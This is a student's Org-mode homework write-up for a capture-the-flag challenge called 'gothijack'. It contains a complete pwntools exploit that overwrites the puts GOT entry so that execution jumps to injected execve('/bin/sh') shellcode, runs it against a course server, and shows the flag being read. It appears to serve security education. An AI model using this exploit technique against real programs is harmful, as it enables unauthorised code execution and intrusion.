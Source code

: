 #+OPTIONS: ':nil *:t -:t ::t <:t H:3 \n:nil ^:t arch:headline author:t
#+OPTIONS: broken-links:nil c:nil creator:nil d:(not "LOGBOOK") date:t e:t
#+OPTIONS: email:nil f:t inline:t num:t p:nil pri:nil prop:nil stat:t tags:t
#+OPTIONS: tasks:t tex:t timestamp:t title:t toc:t todo:t |:t
#+TITLE: hw2
#+AUTHOR: 0410788 CHING-WEN CHENG
#+LANGUAGE: en
#+SELECT_TAGS: export
#+EXCLUDE_TAGS: noexport
#+CREATOR: Emacs 25.2.2 (Org mode 9.0.9)
#+LATEX_CLASS: article
#+LATEX_CLASS_OPTIONS:
#+LATEX_HEADER:
#+LATEX_HEADER_EXTRA:
#+DESCRIPTION:
#+KEYWORDS:
#+SUBTITLE:
#+LATEX_COMPILER: pdflatex

* Homework2
** gothijack
   no nx & PIE, we can insert shellcode to global variable <name> and at the second input 
   write <puts> got to <name>'s address, so when the last puts is called, shellcode is executed.
*** Code
#+BEGIN_SRC python :results output :python  ~/pyenv/bin/python3 :exports both
from pwn import *
context.arch = "amd64"
puts_got = 0x601020
buf = 0x6010a0
payload = b"\x00" * 8
shell = asm("""
call main
.ascii "/bin/sh"
.byte 0

main:
  mov rax, 59
  mov rdi, [rsp]
  mov rdx, 0
  mov rsi, 0
  syscall
""")
r = remote("csie.ctf.tw", 10129)
r.recvuntil(":")
r.send(payload + shell)
r.recvuntil(":")
r.sendline(hex(puts_got))
r.recvuntil(":")
r.sendline(p64(buf+8))
r.sendline("cat /home/`whoami`/flag")
f = r.recvline()
print(f)

#+END_SRC

#+RESULTS:
: [x] Opening connection to csie.ctf.tw on port 10129
: [x] Opening connection to csie.ctf.tw on port 10129: Trying 140.112.31.96
: [+] Opening connection to csie.ctf.tw on port 10129: Done
: b'FLAG{G0THiJJack1NG}\n'
: [*] Closed connection to csie.ctf.tw port 10129
